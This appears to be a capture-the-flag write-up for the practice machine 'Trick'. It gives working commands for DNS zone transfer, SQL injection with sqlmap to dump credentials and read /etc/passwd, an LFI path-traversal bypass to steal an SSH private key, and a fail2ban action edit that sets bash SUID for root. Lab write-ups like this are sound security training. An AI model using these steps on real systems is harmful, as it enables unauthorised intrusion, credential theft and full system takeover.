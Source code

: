 ## Enumeration
```bash
22 - OpenSSH 7.9p1 Debian 10+deb10u2
25 - Postfix
53 - BIND "9.11.5-P4-5.1+deb10u7-Debian"
80 - nginx 1.14.2 - unconfigured boostrap
```
```bash
nslookup
> SERVER 10.10.11.166
Default server: 10.10.11.166
Address: 10.10.11.166#53
> 10.10.11.166
166.11.10.10.in-addr.arpa       name = trick.htb.
>
```
```bash
dig axfr @10.10.11.166 trick.htb

; <<>> DiG 9.18.1-1-Debian <<>> axfr @10.10.11.166 trick.htb
; (1 server found)
;; global options: +cmd
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.              604800  IN      NS      trick.htb.
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1
preprod-payroll.trick.htb. 604800 IN    CNAME   trick.htb.
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 32 msec
;; SERVER: 10.10.11.166#53(10.10.11.166) (TCP)
 WHEN: Mon Jul 04 23:11:04 IST 2022
;; XFR size: 6 records (messages 1, bytes 231)
```

## SQLi
[http://preprod-payroll.trick.htb](http://preprod-payroll.trick.htb)  
  
The preprod portal has a login page, which is vulnerable to SQli  
  
![sqli](./sqli.png)

We now have access to the payroll portal, it might be worth testing the site for more SQLi vulns  
After trying sqlmap on various forms, the 'save deduction' form seems to be vulnerable  
  
![deductions](./deductions.png)

```bash
sqlmap -r save_deductions.req --batch --threads 10 -D payroll_db -T users --dump
```
```bash
Database: payroll_db
Table: users
[1 entry]
+----+-----------+----------------+------+---------+---------+-----------------------+------------+
| id | doctor_id | name           | type | address | contact | password              | username   |
---+-----------+----------------+------+---------+---------+-----------------------+------------+
| 1  | 0         | Administrateur | 1    | <blank> | <blank> | SuperGucciRainbowCake | Enemigosss |
+----+-----------+----------------+------+---------+---------+-----------------------+------------+
```

The SQli can also be leveraged to dump files that www-data has access to:  
```bash
sqlmap -r save_deductions.req --batch --threads 10 --file-read /etc/passwd
```
```bash
grep sh$ /home/blnkn/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_passwd
root:x:0:0:root:/root:/bin/bash
michael:x:1001:1001::/home/michael:/bin/bash
```

looking at the nginx virtual host config to know what the web folder names are  
```bash
sqlmap -r save_deductions.req --batch --threads 10 --file-read /etc/nginx/sites-available/default  
```
```bash
grep 'server_name\|root' /home/blnkn/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_nginx_sites-available_default                       
        server_name trick.htb;
        root /var/www/html;
        server_name _;
        server_name preprod-marketing.trick.htb;
        root /var/www/market;
        server_name preprod-payroll.trick.htb;
        root /var/www/payroll;
```
this uncovers a new vhost - preprod-marketing  
[http://preprod-marketing.trick.htb/index.php](http://preprod-marketing.trick.htb/index.php)  
because we now have the web folder paths we can now dump the source code  
```bash
sqlmap -r save_deductions.req --batch --threads 10 --file-read /var/www/market/index.php  
```
```php
<?php
$file = $_GET['page'];

if(!isset($file) || ($file=="index.php")) {
   include("/var/www/market/home.html");
}
else{
        include("/var/www/market/".str_replace("../","",$file));
}
?>
```
This points us to an LFI as the above can be evaded like this ..././..././..././  

## LFI
So we can now just dump michael's key, and get user access  
```bash
curl 'http://preprod-marketing.trick.htb/index.php?page=..././..././..././..././..././home/michael/.ssh/id_rsa' -o michael.pem
```

## Fail2Ban privesc
It is imediately apparent that the privesc will be something with fail2ban  
the makers of the box are hinting us to it in a few different ways  
there is a fail2ban config file in michael's home folder 
```bash
-bash-5.0$ ls -la
total 100
drwxr-xr-x 15 michael michael  4096 Sep 17 16:33 .
drwxr-xr-x  3 root    root     4096 May 25 13:28 ..
lrwxrwxrwx  1 root    root        9 Apr 22 09:47 .bash_history -> /dev/null
-rw-r--r--  1 michael michael   220 Apr 18  2019 .bash_logout
-rw-r--r--  1 michael michael  3526 Apr 18  2019 .bashrc
drwx------  9 michael michael  4096 May 11 21:09 .cache
drwx------ 10 michael michael  4096 May 11 21:08 .config
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Desktop
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Documents
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Downloads
drwx------  3 michael michael  4096 May 11 21:08 .gnupg
-rw-------  1 michael michael  1256 May 25 13:09 .ICEauthority
-rw-r--r--  1 michael michael  1536 Sep 17 14:22 iptables-multiport.conf
drwx------  3 michael michael  4096 May 11 21:07 .local
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Music
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Pictures
-rw-r--r--  1 michael michael   807 Apr 18  2019 .profile
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Public
drwx------  2 michael michael  4096 May 24 17:25 .ssh
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Templates
-rw-r-----  1 root    michael    33 Sep 17 01:51 user.txt
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Videos
-rw-------  1 michael michael 12716 Sep 17 16:33 .viminfo
```
he has access to restart fail2ban  
```bash
-bash-5.0$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```
and also has write access in /etc/fail2ban/actions.d
```bash
-bash-5.0$ cd /etc/fail2ban/
-bash-5.0$ ls -la
total 76
drwxr-xr-x   6 root root      4096 Sep 17 16:36 .
drwxr-xr-x 126 root root     12288 Sep 17 01:51 ..
drwxrwx---   2 root security  4096 Sep 17 16:36 action.d
-rw-r--r--   1 root root      2334 Sep 17 16:36 fail2ban.conf
drwxr-xr-x   2 root root      4096 Sep 17 16:36 fail2ban.d
drwxr-xr-x   3 root root      4096 Sep 17 16:36 filter.d
-rw-r--r--   1 root root     22908 Sep 17 16:36 jail.conf
drwxr-xr-x   2 root root      4096 Sep 17 16:36 jail.d
-rw-r--r--   1 root root       645 Sep 17 16:36 paths-arch.conf
-rw-r--r--   1 root root      2827 Sep 17 16:36 paths-common.conf
-rw-r--r--   1 root root       573 Sep 17 16:36 paths-debian.conf
-rw-r--r--   1 root root       738 Sep 17 16:36 paths-opensuse.conf
```
a quick google search for "fail2ban privesc" an we know we can execute arbitrary command with this  
let's try to make a bash suid  
```bash
cp /etc/fail2ban/action.d/iptables-multiport.conf iptables-multiport.conf
```
adding the chmod suid into the actionban command  
```bash
actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
            chmod +s /usr/bin/bash
```
and placing the file back in action.d  
```bash
rm -rf /etc/fail2ban/action.d/iptables-multiport.conf
cp iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.conf
```
then restarting the daemon  
```bash
sudo /etc/init.d/fail2ban restart
[ ok ] Restarting fail2ban (via systemctl): fail2ban.service.
```
Now of course we need to trigger the ban, lets do a bruteforce attach with hydra  
```bash
hydra ssh://trick.htb -l root -P /usr/share/wordlists/rockyou.txt
```
and we're in  
```bash
ls -la /usr/bin/bash
-rwsr-sr-x 1 root root 1168776 Apr 18  2019 /usr/bin/bash
bash -p
bash-5.0# wc -c /root/root.txt
33 /root/root.txt
```
